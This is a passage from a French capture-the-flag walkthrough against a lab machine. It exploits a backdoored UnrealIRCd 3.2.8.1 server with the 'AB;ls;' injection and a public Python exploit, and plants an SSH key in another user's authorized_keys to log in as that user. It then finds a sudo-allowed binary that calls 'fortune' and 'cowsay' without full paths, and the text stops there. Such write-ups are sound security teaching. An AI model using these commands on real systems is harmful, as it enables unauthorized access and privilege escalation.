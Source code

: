 On remarque que le serveur est en version 3.2.8.1. Il s'agit ni plus ni moins [d'une version qui a été backdoorée](http://d4n3ws.polux-hosting.com/2010/06/13/unrealircd-backdoore/) et dont on trouve différents exploits [sur *SecurityFocus*](http://www.securityfocus.com/bid/40820/exploit).  

Mon dévolu s'est porté sur l'exploit en version Python. Le principe de la backdoor consiste à envoyer une commande de la sorte au serveur :  

```plain
AB;ls;
```

Ainsi la commande *ls* sera exécutée. Il faut modifier quelque peu l'exploit car le serveur affiche deux messages avant de bien vouloir recevoir les commandes (on placera deux recv) et il faut aussi prendre en compte le fait que l'output n'est pas directement retourné (on lance les commandes en aveugle).  

On va utiliser le fait qu'on dispose déjà d'une clé SSH connue sur le système pour nous ouvrir les portes de l'utilisateur *jetta* :

```plain
python 40820.py 192.168.1.57 9999 "mkdir -p /home/jetta/.ssh"
python 40820.py 192.168.1.57 9999 "cat /home/mauk/.ssh/id_rsa.pub >> /home/jetta/.ssh/authorized_keys"
```

puis on se connecte :

```plain
ssh -i mauk_key jetta@192.168.1.57
```

Capture the flag
----------------

On remarque que dans son *home* l'utilisateur dispose d'un dossier *auth\_server* appartenant à root.  

Dans ce dossier on trouve un autre binaire du même nom. Le programme n'est pas setuid root mais quand on appelle *sudo -l* on obtient :

```plain
User jetta may run the following commands on this host:
    (root) NOPASSWD: /home/jetta/auth_server/auth_server
```

Donc si on fait *sudo auth\_server* le programme sera lancé comme si on était root. Par curiosité on lance un *strings* dessus et on remarque dans la vingtaine de lignes :

```plain
could not establish connection
invalid certificates
error: (12)
fortune -s | /usr/bin/cowsay
Starting Auth server..
;*3$"
```

Monumentale erreur ! Appeler un programme sans spécifier son path exact !  

Comment le programme réagit-il quand on le lance normalement ?  
